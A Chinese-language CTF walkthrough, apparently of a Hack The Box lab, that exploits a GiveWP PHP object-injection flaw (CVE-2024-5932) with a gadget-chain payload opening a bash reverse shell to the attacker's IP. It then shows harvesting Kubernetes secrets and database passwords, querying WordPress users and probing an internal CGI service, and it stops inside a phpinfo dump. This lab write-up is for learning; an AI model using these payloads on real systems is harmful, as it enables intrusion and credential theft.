{'give-form-id': '17', 'give-form-hash': '8cd3aa4cd6', 'give-price-id': '0', 'give-amount': '$10.00', 'give_first': 'Jason', 'give_last': 'Warren', 'give_email': 'uhowe@example.net', 'give_title': 'O:19:"Stripe\\\\\\\\StripeObject":1:{s:10:"\\0*\\0_values";a:1:{s:3:"foo";O:62:"Give\\\\\\\\PaymentGateways\\\\\\\\DataTransferObjects\\\\\\\\GiveInsertPaymentData":1:{s:8:"userInfo";a:1:{s:7:"address";O:4:"Give":1:{s:12:"\\0*\\0container";O:33:"Give\\\\\\\\Vendors\\\\\\\\Faker\\\\\\\\ValidGenerator":3:{s:12:"\\0*\\0validator";s:10:"shell_exec";s:12:"\\0*\\0generator";O:34:"Give\\\\\\\\Onboarding\\\\\\\\SettingsRepository":1:{s:11:"\\0*\\0settings";a:1:{s:8:"address1";s:51:"bash -c "bash -i >& /dev/tcp/10.10.15.139/443 0>&1"";}}s:13:"\\0*\\0maxRetries";i:10;}}}}}}', 'give-gateway': 'offline', 'action': 'give_process_donation'}
```
#### 连接上反弹
```
[★]$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.15.139] from (UNKNOWN) [10.129.242.171] 38135
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
<-59ffb97c44-pjh4n:/opt/bitnami/wordpress/wp-admin$ whoami 
whoami
whoami: cannot find name for user ID 1001
<-59ffb97c44-pjh4n:/opt/bitnami/wordpress/wp-admin$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
<-59ffb97c44-pjh4n:/opt/bitnami/wordpress/wp-admin$ ^Z
[1]+  Stopped                 sudo nc -lvnp 443
┌─[us-dedivip-4]─[10.10.15.139]─[syareya55@htb-nd098h0v5r]─[~/CVE-2024-5932]
└──╼ [★]$ stty raw -echo; fg
sudo nc -lvnp 443
                 reset
bash: reset: command not found
<-59ffb97c44-pjh4n:/opt/bitnami/wordpress/wp-admin$
```
#### Shell as root on legacy-internet-cms Pod
```
<-59ffb97c44-pjh4n:/opt/bitnami/wordpress/wp-admin$ whoami
whoami: cannot find name for user ID 1001
```
#### “I have no name!”是因为该用户在文件中没有映射关系passwd：
```
<-59ffb97c44-pjh4n:/opt/bitnami/wordpress/wp-admin$ cd /
I have no name!@beta-vino-wp-wordpress-59ffb97c44-pjh4n:/$ id
uid=1001 gid=0(root) groups=0(root),1001

I have no name!@beta-vino-wp-wordpress-59ffb97c44-pjh4n:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```
#### I have no name!@beta-vino-wp-wordpress-59ffb97c44-pjh4n:/$
#### 主机名符合 K8s 的默认命名模式<deployment>-<replicaset-hash>-<pod-hash>，因此部署名称为“beta-vino-wp-wordpress”，副本集哈希值为“59ffb97c44”，pod 唯一哈希值为“pjh4n”
#### 初始目录与/opt/bitnami/wordpress/Bitnami Helm chart WordPress 布局相匹配，这是在 Kubernetes 上部署 WordPress 的标准方法
https://www.fobwp.com/kubernetes-wordpress-guide/
#### 文件系统根目录中的文件也与 Kubernetes 匹配：
```
I have no name!@beta-vino-wp-wordpress-59ffb97c44-pjh4n:/$ ls
bin	 dev   lib    mnt	   post-init.sh  run	  srv  usr
bitnami  etc   lib64  opt	   proc		 sbin	  sys  var
boot	 home  media  post-init.d  root		 secrets  tmp
```
#### /secrets很可能是已挂载的 K8s 密钥目录。post-init.d而post-init.sh则是 Bitnami K8s 容器的初始化脚本。
#### 这一切都与上面在 30686 端口观察到的情况相符。而且环境非常精简。没有ping`<path> `、 curl`<path>`、reset`<path>` 或 `<path> stty`。`<path>` 中没有任何目录/home，并且只有 root 用户设置了 shell。在 Kubernetes 容器中，如果设置了 `<path>`，则经常securityContext.runAsUser会出现进程以 `<path>` 中不存在的 UID 运行的情况/etc/passwd
#### 文件/etc/hosts还显示它由 Kubernetes 管理：
```
I have no name!@beta-vino-wp-wordpress-59ffb97c44-pjh4n:/$ cat /etc/hosts
# Kubernetes-managed hosts file.
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
fe00::0	ip6-mcastprefix
fe00::1	ip6-allnodes
fe00::2	ip6-allrouters
10.42.1.249	beta-vino-wp-wordpress-59ffb97c44-pjh4n

# Entries added by HostAliases.
127.0.0.1	status.localhost
```
### Pod枚举
```
I have no name!@beta-vino-wp-wordpress-59ffb97c44-pjh4n:/secrets$ ls
mariadb-password  mariadb-root-password  wordpress-password

I have no name!@beta-vino-wp-wordpress-59ffb97c44-pjh4n:/secrets$ cat mariadb-password       sW5sp4spa3u7RLyetrekE4oS
I have no name!@beta-vino-wp-wordpress-59ffb97c44-pjh4n:/secrets$ cat mariadb-root-password   sW5sp4syetre32828383kE4oS
I have no name!@beta-vino-wp-wordpress-59ffb97c44-pjh4n:/secrets$ cat wordpress-password      O8F7KR5zGi
```
#### 环境变量包含大量信息：
<details>
<summary>I have no name!@beta-vino-wp-wordpress-59ffb97c44-pjh4n:/secrets$ env</summary>
           
```
KUBERNETES_SERVICE_PORT_HTTPS=443
BETA_VINO_WP_MARIADB_SERVICE_PORT=3306
WORDPRESS_SMTP_PASSWORD=
WORDPRESS_SMTP_FROM_EMAIL=
BETA_VINO_WP_WORDPRESS_PORT_443_TCP_PORT=443
WEB_SERVER_HTTP_PORT_NUMBER=8080
WORDPRESS_RESET_DATA_PERMISSIONS=no
KUBERNETES_SERVICE_PORT=443
WORDPRESS_EMAIL=user@example.com
WP_CLI_CONF_FILE=/opt/bitnami/wp-cli/conf/wp-cli.yml
WORDPRESS_DATABASE_HOST=beta-vino-wp-mariadb
MARIADB_PORT_NUMBER=3306
MODULE=wordpress
WORDPRESS_SMTP_FROM_NAME=FirstName LastName
HOSTNAME=beta-vino-wp-wordpress-59ffb97c44-pjh4n
WORDPRESS_SMTP_PORT_NUMBER=
BETA_VINO_WP_MARIADB_PORT_3306_TCP_PROTO=tcp
WORDPRESS_EXTRA_CLI_ARGS=
APACHE_BASE_DIR=/opt/bitnami/apache
LEGACY_INTRANET_SERVICE_PORT_5000_TCP_PORT=5000
APACHE_VHOSTS_DIR=/opt/bitnami/apache/conf/vhosts
WEB_SERVER_DEFAULT_HTTP_PORT_NUMBER=8080
WP_NGINX_SERVICE_PORT_80_TCP=tcp://10.43.4.242:80  <--
WORDPRESS_ENABLE_DATABASE_SSL=no
WP_NGINX_SERVICE_PORT_80_TCP_PROTO=tcp
APACHE_DAEMON_USER=daemon
BITNAMI_ROOT_DIR=/opt/bitnami
LEGACY_INTRANET_SERVICE_SERVICE_HOST=10.43.2.241
WORDPRESS_BASE_DIR=/opt/bitnami/wordpress
WORDPRESS_SCHEME=http
WORDPRESS_LOGGED_IN_SALT=
BETA_VINO_WP_WORDPRESS_PORT_80_TCP=tcp://10.43.61.204:80
WORDPRESS_DATA_TO_PERSIST=wp-config.php wp-content
WORDPRESS_HTACCESS_OVERRIDE_NONE=no
WORDPRESS_DATABASE_SSL_CERT_FILE=
APACHE_HTTPS_PORT_NUMBER=8443
PWD=/secrets
OS_FLAVOUR=debian-12
WORDPRESS_CONF_FILE=/opt/bitnami/wordpress/wp-config.php
WORDPRESS_SMTP_PROTOCOL=
LEGACY_INTRANET_SERVICE_PORT_5000_TCP=tcp://10.43.2.241:5000  <--
WP_CLI_BASE_DIR=/opt/bitnami/wp-cli
WORDPRESS_VOLUME_DIR=/bitnami/wordpress
WP_CLI_CONF_DIR=/opt/bitnami/wp-cli/conf
APACHE_BIN_DIR=/opt/bitnami/apache/bin
BETA_VINO_WP_MARIADB_SERVICE_PORT_MYSQL=3306
WORDPRESS_PLUGINS=none
WORDPRESS_FIRST_NAME=FirstName
MARIADB_HOST=beta-vino-wp-mariadb
WORDPRESS_EXTRA_WP_CONFIG_CONTENT=
WORDPRESS_MULTISITE_ENABLE_NIP_IO_REDIRECTION=no
WORDPRESS_DATABASE_USER=bn_wordpress
PHP_DEFAULT_UPLOAD_MAX_FILESIZE=80M
WORDPRESS_AUTH_KEY=
BETA_VINO_WP_MARIADB_PORT_3306_TCP=tcp://10.43.147.82:3306
WORDPRESS_MULTISITE_NETWORK_TYPE=subdomain
WORDPRESS_DATABASE_SSL_KEY_FILE=
APACHE_DEFAULT_CONF_DIR=/opt/bitnami/apache/conf.default
WORDPRESS_LOGGED_IN_KEY=
APACHE_CONF_DIR=/opt/bitnami/apache/conf
HOME=/
KUBERNETES_PORT_443_TCP=tcp://10.43.0.1:443
WEB_SERVER_DAEMON_GROUP=daemon
PHP_DEFAULT_POST_MAX_SIZE=80M
WORDPRESS_ENABLE_HTTPS=no
BETA_VINO_WP_WORDPRESS_SERVICE_PORT=80
BETA_VINO_WP_WORDPRESS_SERVICE_PORT_HTTPS=443
WORDPRESS_TABLE_PREFIX=wp_
WORDPRESS_DATABASE_PORT_NUMBER=3306
WORDPRESS_DATABASE_NAME=bitnami_wordpress
LEGACY_INTRANET_SERVICE_SERVICE_PORT_HTTP=5000
APACHE_HTTP_PORT_NUMBER=8080
WP_NGINX_SERVICE_SERVICE_HOST=10.43.4.242
WP_NGINX_SERVICE_PORT=tcp://10.43.4.242:80  <--
APACHE_DEFAULT_HTTP_PORT_NUMBER=8080
WP_CLI_DAEMON_GROUP=daemon
BETA_VINO_WP_MARIADB_PORT=tcp://10.43.147.82:3306
WORDPRESS_MULTISITE_FILEUPLOAD_MAXK=81920
WORDPRESS_AUTO_UPDATE_LEVEL=none
BITNAMI_DEBUG=false
LEGACY_INTRANET_SERVICE_SERVICE_PORT=5000
LEGACY_INTRANET_SERVICE_PORT_5000_TCP_ADDR=10.43.2.241
WORDPRESS_USERNAME=user
BETA_VINO_WP_WORDPRESS_PORT=tcp://10.43.61.204:80  <--
WORDPRESS_ENABLE_XML_RPC=no
WORDPRESS_BLOG_NAME=User's Blog!
APACHE_PID_FILE=/opt/bitnami/apache/var/run/httpd.pid
WP_NGINX_SERVICE_PORT_80_TCP_ADDR=10.43.4.242
WORDPRESS_AUTH_SALT=
APACHE_LOGS_DIR=/opt/bitnami/apache/logs
WORDPRESS_EXTRA_INSTALL_ARGS=
BETA_VINO_WP_MARIADB_PORT_3306_TCP_PORT=3306  <--
APACHE_DAEMON_GROUP=daemon
WORDPRESS_NONCE_KEY=
WEB_SERVER_HTTPS_PORT_NUMBER=8443
WORDPRESS_SMTP_HOST=
WP_NGINX_SERVICE_SERVICE_PORT_HTTP=80
APACHE_DEFAULT_HTTPS_PORT_NUMBER=8443
WORDPRESS_NONCE_SALT=
APACHE_CONF_FILE=/opt/bitnami/apache/conf/httpd.conf
WORDPRESS_MULTISITE_EXTERNAL_HTTP_PORT_NUMBER=80
BETA_VINO_WP_WORDPRESS_PORT_443_TCP=tcp://10.43.61.204:443
WEB_SERVER_DEFAULT_HTTPS_PORT_NUMBER=8443
WORDPRESS_LAST_NAME=LastName
WP_NGINX_SERVICE_SERVICE_PORT=80
WP_NGINX_SERVICE_PORT_80_TCP_PORT=80
WORDPRESS_ENABLE_MULTISITE=no
WORDPRESS_SKIP_BOOTSTRAP=no
WORDPRESS_MULTISITE_EXTERNAL_HTTPS_PORT_NUMBER=443
SHLVL=3
WORDPRESS_SECURE_AUTH_SALT=
BETA_VINO_WP_MARIADB_PORT_3306_TCP_ADDR=10.43.147.82
BITNAMI_VOLUME_DIR=/bitnami
BETA_VINO_WP_WORDPRESS_PORT_80_TCP_PORT=80
KUBERNETES_PORT_443_TCP_PROTO=tcp
BITNAMI_APP_NAME=wordpress
WORDPRESS_DATABASE_PASSWORD=sW5sp4spa3u7RLyetrekE4oS
BETA_VINO_WP_WORDPRESS_SERVICE_HOST=10.43.61.204
APACHE_HTDOCS_DIR=/opt/bitnami/apache/htdocs
WEB_SERVER_GROUP=daemon
WORDPRESS_PASSWORD=O8F7KR5zGi
KUBERNETES_PORT_443_TCP_ADDR=10.43.0.1  <--
APACHE_HTACCESS_DIR=/opt/bitnami/apache/conf/vhosts/htaccess
WORDPRESS_DEFAULT_DATABASE_HOST=mariadb
WORDPRESS_SECURE_AUTH_KEY=
BETA_VINO_WP_WORDPRESS_PORT_443_TCP_PROTO=tcp
APACHE_TMP_DIR=/opt/bitnami/apache/var/run
APP_VERSION=6.8.1
BETA_VINO_WP_WORDPRESS_PORT_443_TCP_ADDR=10.43.61.204
ALLOW_EMPTY_PASSWORD=yes
WP_CLI_DAEMON_USER=daemon
BETA_VINO_WP_WORDPRESS_SERVICE_PORT_HTTP=80
KUBERNETES_SERVICE_HOST=10.43.0.1
KUBERNETES_PORT=tcp://10.43.0.1:443
KUBERNETES_PORT_443_TCP_PORT=443
WP_CLI_BIN_DIR=/opt/bitnami/wp-cli/bin
WORDPRESS_VERIFY_DATABASE_SSL=yes
OS_NAME=linux
BETA_VINO_WP_WORDPRESS_PORT_80_TCP_PROTO=tcp
PATH=/opt/bitnami/apache/bin:/opt/bitnami/common/bin:/opt/bitnami/common/bin:/opt/bitnami/mysql/bin:/opt/bitnami/common/bin:/opt/bitnami/php/bin:/opt/bitnami/php/sbin:/opt/bitnami/apache/bin:/opt/bitnami/mysql/bin:/opt/bitnami/wp-cli/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_SERVER_TOKENS=Prod
LEGACY_INTRANET_SERVICE_PORT_5000_TCP_PROTO=tcp
WORDPRESS_ENABLE_HTACCESS_PERSISTENCE=no
WORDPRESS_ENABLE_REVERSE_PROXY=no
LEGACY_INTRANET_SERVICE_PORT=tcp://10.43.2.241:5000
WORDPRESS_SMTP_USER=
WEB_SERVER_TYPE=apache
WORDPRESS_MULTISITE_HOST=
PHP_DEFAULT_MEMORY_LIMIT=512M
WORDPRESS_OVERRIDE_DATABASE_SETTINGS=no
WORDPRESS_DATABASE_SSL_CA_FILE=
OS_ARCH=amd64
WEB_SERVER_DAEMON_USER=daemon
BETA_VINO_WP_WORDPRESS_PORT_80_TCP_ADDR=10.43.61.204
BETA_VINO_WP_MARIADB_SERVICE_HOST=10.43.147.82
_=/usr/bin/env
OLDPWD=/
```
</details>

#### 其中最有趣的是，它列出了此 Kubernetes 网络中的所有其他服务/主机：
```
nginx 运行在 10.43.4.242:80
名为“LEGACY_INTRANET_SERVICE”的服务位于 10.43.2.241:5000
WordPress 运行在 10.43.61.204:80
MariaDB 位于 10.43.147.82:3306
Kubernetes 位于 10.43.0.1:443
WP_NGINX_SERVICE 位于 10.43.4.242:80
```
#### 上面这些 IP 地址没变，也可能会在每次服务器启动时发生变化
### Web
#### WordPress实例位于/opt/bitnami/wordpress：
```
<-wordpress-fb7b8dcf8-kzt98:/opt/bitnami/wordpress$ ls
index.php	 wp-admin	       wp-cron.php	  wp-settings.php
license.txt	 wp-blog-header.php    wp-includes	  wp-signup.php
licenses	 wp-comments-post.php  wp-links-opml.php  wp-trackback.php
readme.html	 wp-config-sample.php  wp-load.php	  xmlrpc.php
tmp		 wp-config.php	       wp-login.php
wp-activate.php  wp-content	       wp-mail.php
```
#### wp-config.php包含数据库连接信息：
```
<-wordpress-fb7b8dcf8-kzt98:/opt/bitnami/wordpress$ cat wp-config.php
<?php
...[SNIP]...
define( 'DB_NAME', 'bitnami_wordpress' );

/** Database username */
define( 'DB_USER', 'bn_wordpress' );

/** Database password */
define( 'DB_PASSWORD', 'sW5sp4spa3u7RLyetrekE4oS' );

/** Database hostname */
define( 'DB_HOST', 'beta-vino-wp-mariadb:3306' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

...[/SNIP]...
```
#### 访问mysql 
```
I have no name!@beta-vino-wp-wordpress-fb7b8dcf8-kzt98:/$ mysql -h beta-vino-wp-mariadb -u bn_wordpress -p'sW5sp4spa3u7RLyetrekE4oS' bitnami_wordpress
  
MariaDB [bitnami_wordpress]>
MariaDB [bitnami_wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email       | user_url         | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+--------------+
|  1 | user       | $P$Bm1D6gJHKylnyyTeT0oYNGKpib//vP. | user          | user@example.com | http://127.0.0.1 | 2024-09-21 22:18:28 |                     |           0 | babywyrm     |
+----+------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.000 sec)
```
### Legacy Service 传统服务
#### 10.43.2.241:5000 上运行着一个旧版服务，根据端口号来看，它很可能是一个 Web 应用程序。我没有安装任何curl工具wget，但php已经安装了，而且我可以轻松地使用file_get_contents它来发出 Web 请求（为了便于阅读，我将使用 `--prod` 来缩短提示符PS1="$ "）：
<details>
<summary>php -r "echo file_get_contents('http://10.43.2.241:5000/');"</summary>

```
I have no name!@beta-vino-wp-wordpress-fb7b8dcf8-kzt98:/$  php -r "echo file_get_contents('http://10.43.2.241:5000/');"
<!DOCTYPE html>
<html>
<head>
  <title>GiveBack LLC Internal CMS</title>
  <!-- Developer note: phpinfo accessible via debug mode during migration window -->
  <style>
    body { font-family: Arial, sans-serif; margin: 40px; background: #f9f9f9; }
    .header { color: #333; border-bottom: 1px solid #ccc; padding-bottom: 10px; }
    .info { background: #eef; padding: 15px; margin: 20px 0; border-radius: 5px; }
    .warning { background: #fff3cd; border: 1px solid #ffeeba; padding: 10px; margin: 10px 0; }
    .resources { margin: 20px 0; }
    .resources li { margin: 5px 0; }
    a { color: #007bff; text-decoration: none; }
    a:hover { text-decoration: underline; }
  </style>
</head>
<body>
  <div class="header">
    <h1>🏢 GiveBack LLC Internal CMS System</h1>
    <p><em>Development Environment – Internal Use Only</em></p>
  </div>

  <div class="warning">
    <h4>⚠️ Legacy Notice</h4>
    <p>**SRE** - This system still includes legacy CGI support. Cluster misconfiguration may likely expose internal scripts.</p>
  </div>

  <div class="resources">
    <h3>Internal Resources</h3>
    <ul>
      <li><a href="/admin/">/admin/</a> — VPN Required</li>
      <li><a href="/backups/">/backups/</a> — VPN Required</li>
      <li><a href="/runbooks/">/runbooks/</a> — VPN Required</li>
      <li><a href="/legacy-docs/">/legacy-docs/</a> — VPN Required</li>
      <li><a href="/debug/">/debug/</a> — Disabled</li>
      <li><a href="/cgi-bin/info">/cgi-bin/info</a> — CGI Diagnostics</li>
      <li><a href="/cgi-bin/php-cgi">/cgi-bin/php-cgi</a> — PHP-CGI Handler</li>
      <li><a href="/phpinfo.php">/phpinfo.php</a></li>
      <li><a href="/robots.txt">/robots.txt</a> — Crawlers: Disallowed</li>
    </ul>
  </div>

  <div class="info">
    <h3>Developer Note</h3>
    <p>This CMS was originally deployed on Windows IIS using <code>php-cgi.exe</code>.
    During migration to Linux, the Windows-style CGI handling was retained to ensure
    legacy scripts continued to function without modification.</p>
  </div>
</body>
</html>
```
</details>

#### 这里有一个老式的 CGI 网络服务器。CGI 是一种将 URL 映射到可运行以生成页面的程序/脚本的方法。这项技术现在基本已经不再使用，在这里仅仅作为遗留的内部应用程序还有点意义。
#### 这些链接大多无法访问（显示“需要 VPN”或“禁止访问”）。其中一个链接很有意思/phpinfo.php，但它也打不开：
```
I have no name!@beta-vino-wp-wordpress-fb7b8dcf8-kzt98:/$  php -r "echo file_get_contents('http://10.43.2.241:5000/phpinfo.php');"
Access restricted
```
#### 页面顶部有一条评论：
```
<!-- Developer note: phpinfo accessible via debug mode during migration window -->
<!——开发人员说明：在迁移窗口期间，可通过调试模式访问 phpinfo 页面 -->
```

<details>
<summary>php -r "echo file_get_contents('http://10.43.2.241:5000/phpinfo.php?debug');"</summary>

```
I have no name!@beta-vino-wp-wordpress-fb7b8dcf8-kzt98:/$  php -r "echo file_get_contents('http://10.43.2.241:5000/phpinfo.php?dubug');"
<h1>PHP Configuration - Development Environment</h1><p style='color: red;'><strong>WARNING:</strong> This file should not be accessible in production!</p><hr><!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml"><head>
<style type="text/css">
body {background-color: #fff; color: #222; font-family: sans-serif;}
pre {margin: 0; font-family: monospace;}
a:link {color: #009; text-decoration: none; background-color: #fff;}
a:hover {text-decoration: underline;}
table {border-collapse: collapse; border: 0; width: 934px; box-shadow: 1px 2px 3px rgba(0, 0, 0, 0.2);}
.center {text-align: center;}
.center table {margin: 1em auto; text-align: left;}
.center th {text-align: center !important;}
td, th {border: 1px solid #666; font-size: 75%; vertical-align: baseline; padding: 4px 5px;}
th {position: sticky; top: 0; background: inherit;}
h1 {font-size: 150%;}
h2 {font-size: 125%;}
h2 a:link, h2 a:visited{color: inherit; background: inherit;}
.p {text-align: left;}
.e {background-color: #ccf; width: 300px; font-weight: bold;}
.h {background-color: #99c; font-weight: bold;}
.v {background-color: #ddd; max-width: 300px; overflow-x: auto; word-wrap: break-word;}
.v i {color: #999;}
img {float: right; border: 0;}
hr {width: 934px; background-color: #ccc; border: 0; height: 1px;}
:root {--php-dark-grey: #333; --php-dark-blue: #4F5B93; --php-medium-blue: #8892BF; --php-light-blue: #E2E4EF; --php-accent-purple: #793862}@media (prefers-color-scheme: dark) {
  body {background: var(--php-dark-grey); color: var(--php-light-blue)}
  .h td, td.e, th {border-color: #606A90}
  td {border-color: #505153}
  .e {background-color: #404A77}
  .h {background-color: var(--php-dark-blue)}
  .v {background-color: var(--php-dark-grey)}
  hr {background-color: #505153}
}
</style>
<title>PHP 8.3.3 - phpinfo()</title><meta name="ROBOTS" content="NOINDEX,NOFOLLOW,NOARCHIVE" /></head>
<body><div class="center">
<table>
<tr class="h"><td>
<a href="http://www.php.net/"><img border="0" src="data:image/png;base64,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